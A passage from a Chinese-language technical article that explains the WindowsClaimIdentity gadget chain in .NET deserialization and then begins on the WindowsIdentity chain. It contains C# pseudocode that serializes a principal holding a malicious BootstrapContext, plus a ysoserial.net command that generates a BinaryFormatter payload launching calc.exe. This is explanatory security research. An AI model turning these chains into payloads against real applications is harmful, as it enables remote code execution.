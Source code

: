 2. **序列化与传递**
     - 使用 `BinaryFormatter` 或 `NetDataContractSerializer`，将对象树序列化为二进制数据。
     - 数据被传递到目标应用。

3. **反序列化触发链条**
     - 目标应用反序列化时，`WindowsClaimIdentity` 的属性被自动还原和访问。
     - 某些属性的 getter/setter 可能导致命令执行或敏感信息泄露。

---

### 7.4 伪代码示例

```csharp
// 构造 WindowsClaimIdentity，设置 BootstrapContext 为恶意对象
var winClaim = new WindowsClaimIdentity();
winClaim.BootstrapContext = new MaliciousObject(); // 恶意对象

// 构造 ClaimsPrincipal，持有 winClaim
var principal = new ClaimsPrincipal(winClaim);

// 序列化 principal
var formatter = new BinaryFormatter();
formatter.Serialize(stream, principal);

// 反序列化时触发链条
formatter.Deserialize(stream);
```

---

### 7.5 触发点与关键代码

- **WindowsClaimIdentity.BootstrapContext/Actor**  
    反序列化时自动访问，攻击者可控。
- **ClaimsPrincipal.Identity**  
    递归还原身份对象，触发危险属性。

---

### 7.6 影响范围

- 影响所有使用 `BinaryFormatter`、`NetDataContractSerializer` 反序列化且未做类型限制的 .NET Framework 应用。
- 主要影响 .NET Framework 4.x，.NET Core/5/6 默认不包含全部功能。

### 7.7 参考利用链（ysoserial.net）

```bash
ysoserial.exe -g WindowsClaimIdentity -f BinaryFormatter -o base64 -c "calc.exe"
```

---

## 8 WindowsIdentity链
### 8.1 什么是 WindowsIdentity 链?
